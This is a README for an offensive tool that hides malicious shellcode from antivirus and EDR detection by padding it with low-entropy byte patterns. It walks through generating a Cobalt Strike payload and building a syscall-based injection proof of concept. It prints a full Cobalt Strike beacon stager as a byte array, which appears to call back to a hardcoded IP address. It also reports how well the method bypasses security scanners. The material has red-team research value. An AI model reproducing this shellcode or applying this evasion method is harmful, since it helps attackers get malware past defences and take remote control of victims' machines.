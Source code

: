 <h1 align="center">
    Shelltropy
</h1>

<h2 align="center">
    The more predictable you are, the less you get detected
</h2>

**A technique of hiding malicious shellcode based on low-entropy via Shannon encoding.**

Entropy is the measure of the randomness in a set of data (here: shellcode). The higher the entropy, the more random the data is. Shannon Entropy is an algorithm that will produce a result between 0 and 8, where 8 means there is no pattern in the data, thereby it's very random and 0 means data follows a pattern.

**Note:** Check out my [blog article](https://kleiton0x00.github.io/posts/The-more-predictable-you-are-the-less-you-are-able-to-get-detected/) for a more detailed explanation of my research, and a simple Vanilla Shellcode Injection PoC as well.

## Setup
Clone this repository:  
```git clone https://github.com/kleiton0x00/Shelltropy.git```

**For the encoder:**  
Create a new Visual Studio project and import both **Entropy.h** and **shannonEncode.cpp** and simply build it.

**For the Shellcode Injection PoC (with Syscalls):**  
Open the Visual Studio project file located in ```/Shelltropy/SyscallsExample/SyscallsExample/SyscallsExample.vcxproj``` and simply build it.  
**Note:** If you want a simple Shellcode Injection PoC with WinAPI check out my [blog](https://kleiton0x00.github.io/posts/The-more-predictable-you-are-the-less-you-are-able-to-get-detected/)

**For the decoder (optional since it's included on the Shellcode Injection PoC):**  
Create a new Visual Studio project and import **shannonDecode.cpp** and simply build it.

## How to use

- Launch Cobalt Strike and generate a Windows Executable (Stageless or non-stageless, up to you). Make sure the output is **Raw** and save it as **payload.bin**  
![generateCSShellcode](https://i.imgur.com/EeBV6qe.png)  
- Execute **shellcodeFormatter.py** and copy the output

```bash
$ python3 shellcodeFormatter.py 
BYTE payload[] = {0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xc8,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,0x8b,0x52,0x20,0x48,0x8b,0x72,0x50,0x48,0x0f,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,0xe2,0xed,0x52,0x41,0x51,0x48,0x8b,0x52,0x20,0x8b,0x42,0x3c,0x48,0x01,0xd0,0x66,0x81,0x78,0x18,0x0b,0x02,0x75,0x72,0x8b,0x80,0x88,0x00,0x00,0x00,0x48,0x85,0xc0,0x74,0x67,0x48,0x01,0xd0,0x50,0x8b,0x48,0x18,0x44,0x8b,0x40,0x20,0x49,0x01,0xd0,0xe3,0x56,0x48,0xff,0xc9,0x41,0x8b,0x34,0x88,0x48,0x01,0xd6,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x03,0x4c,0x24,0x08,0x45,0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x01,0xd0,0x66,0x41,0x8b,0x0c,0x48,0x44,0x8b,0x40,0x1c,0x49,0x01,0xd0,0x41,0x8b,0x04,0x88,0x48,0x01,0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,0x8b,0x12,0xe9,0x4f,0xff,0xff,0xff,0x5d,0x6a,0x00,0x49,0xbe,0x77,0x69,0x6e,0x69,0x6e,0x65,0x74,0x00,0x41,0x56,0x49,0x89,0xe6,0x4c,0x89,0xf1,0x41,0xba,0x4c,0x77,0x26,0x07,0xff,0xd5,0x48,0x31,0xc9,0x48,0x31,0xd2,0x4d,0x31,0xc0,0x4d,0x31,0xc9,0x41,0x50,0x41,0x50,0x41,0xba,0x3a,0x56,0x79,0xa7,0xff,0xd5,0xeb,0x73,0x5a,0x48,0x89,0xc1,0x41,0xb8,0xfb,0x20,0x00,0x00,0x4d,0x31,0xc9,0x41,0x51,0x41,0x51,0x6a,0x03,0x41,0x51,0x41,0xba,0x57,0x89,0x9f,0xc6,0xff,0xd5,0xeb,0x59,0x5b,0x48,0x89,0xc1,0x48,0x31,0xd2,0x49,0x89,0xd8,0x4d,0x31,0xc9,0x52,0x68,0x00,0x02,0x40,0x84,0x52,0x52,0x41,0xba,0xeb,0x55,0x2e,0x3b,0xff,0xd5,0x48,0x89,0xc6,0x48,0x83,0xc3,0x50,0x6a,0x0a,0x5f,0x48,0x89,0xf1,0x48,0x89,0xda,0x49,0xc7,0xc0,0xff,0xff,0xff,0xff,0x4d,0x31,0xc9,0x52,0x52,0x41,0xba,0x2d,0x06,0x18,0x7b,0xff,0xd5,0x85,0xc0,0x0f,0x85,0x9d,0x01,0x00,0x00,0x48,0xff,0xcf,0x0f,0x84,0x8c,0x01,0x00,0x00,0xeb,0xd3,0xe9,0xe4,0x01,0x00,0x00,0xe8,0xa2,0xff,0xff,0xff,0x2f,0x78,0x51,0x48,0x4c,0x00,0x30,0x96,0x54,0xc4,0x1f,0x1c,0xa8,0x3b,0xcb,0x64,0x4f,0xb0,0xb2,0x75,0x09,0x9f,0x7f,0x94,0x1c,0xf7,0x6a,0x53,0xc5,0x96,0xf3,0xea,0x28,0x51,0x8e,0x68,0x86,0xc4,0x4b,0x9a,0xb3,0xd6,0x54,0x82,0x22,0x90,0x89,0xbd,0x84,0xc4,0x73,0x97,0x2a,0xd9,0xbe,0x2d,0xd1,0x34,0xb9,0x18,0xb8,0x63,0xbc,0x52,0x14,0x3f,0x84,0x4e,0xeb,0xab,0x79,0x4a,0x89,0x42,0x26,0x8b,0xe7,0x12,0x48,0x00,0x55,0x73,0x65,0x72,0x2d,0x41,0x67,0x65,0x6e,0x74,0x3a,0x20,0x4d,0x6f,0x7a,0x69,0x6c,0x6c,0x61,0x2f,0x35,0x2e,0x30,0x20,0x28,0x63,0x6f,0x6d,0x70,0x61,0x74,0x69,0x62,0x6c,0x65,0x3b,0x20,0x4d,0x53,0x49,0x45,0x20,0x31,0x30,0x2e,0x30,0x3b,0x20,0x57,0x69,0x6e,0x64,0x6f,0x77,0x73,0x20,0x4e,0x54,0x20,0x36,0x2e,0x31,0x3b,0x20,0x57,0x4f,0x57,0x36,0x34,0x3b,0x20,0x54,0x72,0x69,0x64,0x65,0x6e,0x74,0x2f,0x36,0x2e,0x30,0x3b,0x20,0x4d,0x41,0x53,0x50,0x29,0x0d,0x0a,0x00,0xba,0xf1,0x47,0xbe,0x2f,0x60,0xce,0xf4,0x22,0xc0,0x41,0x82,0x1f,0xb8,0xdb,0xa9,0x01,0x08,0xe0,0xf6,0x87,0xf9,0x24,0x72,0x49,0x5b,0xf6,0xf8,0xa9,0xa1,0x08,0xc9,0x90,0xaa,0x2c,0x71,0x11,0x52,0x60,0x6a,0x94,0x86,0x80,0xc5,0xbe,0x16,0x3e,0x8d,0x15,0xc9,0xf5,0xae,0x9b,0x5d,0x77,0xc2,0x30,0x76,0x2a,0xbf,0x6a,0xc2,0xf6,0x2a,0x35,0xae,0x1d,0x4d,0xa6,0x62,0xe7,0x16,0x7a,0x25,0x05,0xc5,0x80,0x0e,0xf9,0x06,0x45,0x87,0x4d,0x52,0x20,0x5b,0x33,0xd3,0x6a,0x59,0x95,0xb7,0x56,0x1b,0xc5,0xbb,0x91,0xe3,0x97,0x82,0xd5,0xfc,0x6c,0x11,0x48,0x6a,0x64,0xf1,0xe6,0xc1,0xd4,0xef,0x75,0x74,0x20,0x58,0xfb,0x27,0x0b,0x5e,0x23,0x9a,0x87,0x86,0x1f,0x3f,0x34,0xdd,0x2c,0xfc,0x59,0x3b,0x51,0xcb,0x56,0x08,0x5d,0x85,0x5e,0x45,0x23,0x4d,0x99,0x8e,0x5f,0x8b,0x35,0x36,0x11,0xce,0x51,0x52,0x7b,0x48,0xda,0x77,0x1b,0x25,0xac,0xe5,0x05,0x9f,0x97,0x96,0xf2,0x2c,0x38,0x5a,0xcd,0x1f,0xbb,0x47,0x0e,0x55,0x60,0xab,0xe3,0x99,0x2f,0x7d,0x35,0xae,0xbc,0x68,0x69,0x5e,0x6b,0xde,0x0e,0xc0,0x6c,0x80,0x9a,0x5a,0xb4,0xfb,0x25,0xb4,0x54,0xa2,0xad,0xc3,0x19,0xf3,0x92,0x48,0xe6,0xb4,0x1d,0xac,0x89,0x00,0x41,0xbe,0xf0,0xb5,0xa2,0x56,0xff,0xd5,0x48,0x31,0xc9,0xba,0x00,0x00,0x40,0x00,0x41,0xb8,0x00,0x10,0x00,0x00,0x41,0xb9,0x40,0x00,0x00,0x00,0x41,0xba,0x58,0xa4,0x53,0xe5,0xff,0xd5,0x48,0x93,0x53,0x53,0x48,0x89,0xe7,0x48,0x89,0xf1,0x48,0x89,0xda,0x41,0xb8,0x00,0x20,0x00,0x00,0x49,0x89,0xf9,0x41,0xba,0x12,0x96,0x89,0xe2,0xff,0xd5,0x48,0x83,0xc4,0x20,0x85,0xc0,0x74,0xb6,0x66,0x8b,0x07,0x48,0x01,0xc3,0x85,0xc0,0x75,0xd7,0x58,0x58,0x58,0x48,0x05,0x00,0x00,0x00,0x00,0x50,0xc3,0xe8,0x9f,0xfd,0xff,0xff,0x31,0x39,0x32,0x2e,0x31,0x36,0x38,0x2e,0x31,0x2e,0x34,0x36,0x00,0x5e,0x2e,0x78,0x90};
```

- Replace the Shellcode in **shannonEncoder.cpp** (line 10) with the shellcode you generated from the python file.
- You can use the generated low-entropy shellcode in the Visual Studio project ```/Shelltropy/SyscallsExample/SyscallsExample/SyscallsExample.vcxproj```

## How the PoC works

The concept is to divide the array into chunks and insert a low-entropy pattern of bytes between each chunk. When the sample is run, we must reconstruct the original payload in memory, bypassing the static detection of the high entropy code at this stage.
It's also worth noting that the low-entropy code to be inserted can follow a variety of patterns, and the amount of insertions can vary, thus it can be used to circumvent static signature detection. The second step is to combine the high entropy chunks of bytes with the low entropy chunks. 
Because, after all, we need to restore the obfuscated code to what it was initially in order to proceed to the de-obfuscation step, the third task will restore the original array of bytes by deleting the low entropy patterns. 

![poc_logic_flow](https://github.com/kleiton0x00/Shelltropy/blob/main/Images/encoding_logic_flow.jpg?raw=true)

## Demo

![vs_build](https://i.imgur.com/3B7p4hB.gif)

## Entropy Results

**Note:** The following results are only tested with CS Shellcode.

~ Raw default Cobalt Strike shellcode  
(High-entropy) Normal: **7.062950**   
(Low-entropy) Encoded: **4.527140**  

~ XORed Cobalt Strike shellcode  
(High-entropy) Normal: **4.583139**    
(Low-entropy) Encoded: **3.278284**

## AV/EDR Scanning Results

High-Entropy (left side) vs Low-Entropy (right side) default CS Shellcode integrated with Syscalls (Syswhispers2):  
![results-side-by-side](https://i.imgur.com/ZXcGlDQ.jpg)

## Disadvantage

While encoding, the size of the shellcode will be 2 times larger, making it easier for Blue Team/ Malware Analysis to detect such encoded shellcodes.

## Creds

The Shellcode Injection template (using Syscalls2) is copied from this project: https://github.com/m0rv4i/SyscallsExample
